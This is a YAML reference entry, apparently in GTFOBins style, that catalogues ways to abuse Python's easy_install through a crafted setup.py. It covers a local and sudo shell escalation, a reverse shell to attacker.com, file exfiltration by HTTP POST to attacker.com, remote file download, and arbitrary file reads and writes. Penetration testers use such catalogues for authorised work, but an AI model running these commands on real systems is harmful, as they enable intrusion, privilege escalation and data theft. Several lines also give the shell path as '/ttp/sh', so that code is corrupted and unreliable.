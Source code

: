 ```yaml
---
functions:
  shell:
    - code: |
        TF=$(mktemp -d)
        echo "import os; os.execl('/ttp/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
        easy_install $TF
  reverse-shell:
    - description: Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        TF=$(mktemp -d)
        echo 'import sys,socket,os,pty;s=socket.socket()
        s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))
        [os.dup2(s.fileno(),fd) for fd in (0,1,2)]
        pty.spawn("/ttp/sh")' > $TF/setup.py
        easy_install $TF
  file-upload:
    - description: Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        export URL=http://attacker.com/
        export LFILE=file_to_send
        TF=$(mktemp -d)
        echo 'import sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
        else: import urllib as u, urllib2 as r
        r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read()}).encode()))' > $TF/setup.py
        easy_install $TF
    - description: Serve files in the local folder running an HTTP server.
      code: |
        export LPORT=8888
        TF=$(mktemp -d)
        echo 'import sys; from os import environ as e
        if sys.version_info.major == 3: import http.server as s, socketserver as ss
        else: import SimpleHTTPServer as s, SocketServer as ss
        ss.TCPServer(("", int(e["LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()' > $TF/setup.py
        easy_install $TF
  file-download:
    - description: Fetch a remote file via HTTP GET request. The file path must be absolute.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=/tmp/file_to_save
        TF=$(mktemp -d)
        echo "import os;
        os.execl('$(whereis python)', '$(whereis python)', '-c', \"\"\"import sys;
        if sys.version_info.major == 3: import urllib.request as r
        else: import urllib as r
        r.urlretrieve('$URL', '$LFILE')\"\"\")" > $TF/setup.py
        pip install $TF
  file-write:
    - description: The file path must be absolute.
      code: |
        export LFILE=/tmp/file_to_save
        TF=$(mktemp -d)
        echo "import os;
        os.execl('$(whereis python)', 'python', '-c', 'open(\"$LFILE\",\"w+\").write(\"DATA\")')" > $TF/setup.py
        easy_install $TF
  file-read:
    - description: The read file content is wrapped within program messages.
      code: |
        TF=$(mktemp -d)
        echo 'print(open("file_to_read").read())' > $TF/setup.py
        easy_install $TF
  library-load:
    - code: |
        TF=$(mktemp -d)
        echo 'from ctypes import cdll; cdll.LoadLibrary("lib.so")' > $TF/setup.py
        easy_install $TF
  sudo:
    - code: |
        TF=$(mktemp -d)
        echo "import os; os.execl('/ttp/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
        sudo easy_install $TF
---
```

